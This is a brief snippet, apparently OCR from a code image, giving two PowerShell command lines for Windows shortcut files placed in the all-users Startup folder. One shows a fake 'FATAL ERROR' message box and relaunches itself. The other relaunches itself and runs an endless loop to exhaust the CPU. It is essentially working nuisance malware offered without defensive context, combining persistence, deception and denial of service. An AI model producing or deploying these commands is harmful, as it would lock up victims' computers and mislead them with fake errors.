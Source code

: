 **1.LNK generates error messages**
C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe Add-Type -Assembly PresentationFramework;[Windows.MessageBox]::Show('An error has occurred.','FATAL ERROR','0','48');ii C:\ProgramData\Microsoft\Windows\Start Menu\Programs\StartUp\1.lnk

**2.LNK drains CPU**
powershell ii C:\ProgramData\Microsoft\Windows\Start Menu\Programs\StartUp\2.lnk; while($true){$result=1+1}

